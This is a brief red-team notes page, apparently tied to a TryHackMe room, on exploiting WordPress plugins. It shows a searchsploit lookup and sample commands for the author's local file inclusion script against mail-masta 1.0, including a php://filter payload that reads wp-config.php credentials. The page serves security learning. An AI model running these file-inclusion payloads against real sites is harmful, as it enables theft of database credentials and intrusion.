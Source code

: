 # WordPress Plugins Exploitation

[![allinonemj](../../../../../../cybersecurity/_badges/thm-p/allinonemj.svg)](https://tryhackme.com/room/allinonemj)

<div class="row row-cols-lg-2"><div>

To exploit plugins, you may want to look for [CVEs and exploits](/cybersecurity/red-team/s3.exploitation/index.md#common-vulnerabilities-) corresponding to your plugin version.

You can use [exploit-db](/cybersecurity/red-team/s3.exploitation/db/exploit_db.md):

```ps
$ searchsploit WordPress Plugin <plugin_name_space_separated>
```
</div><div>

I wrote a [short Python script](https://github.com/QuentinRa/blog.quentinra.dev/tree/master/programming-languages/web/others/cms/wordpress/_scripts/wp-mail-masta.py) for `mail-masta 1.0` LFI:

```shell!
$ # try to access a file you know it works
$ ./wp-mail-masta.py -u https://example.com/wordpress/ -f '/var/www/html/index.html'
$ # try to access wp-config file
$ ./wp-mail-masta.py -u https://example.com/wordpress/ -f 'php://filter/read=convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php'
```
</div></div>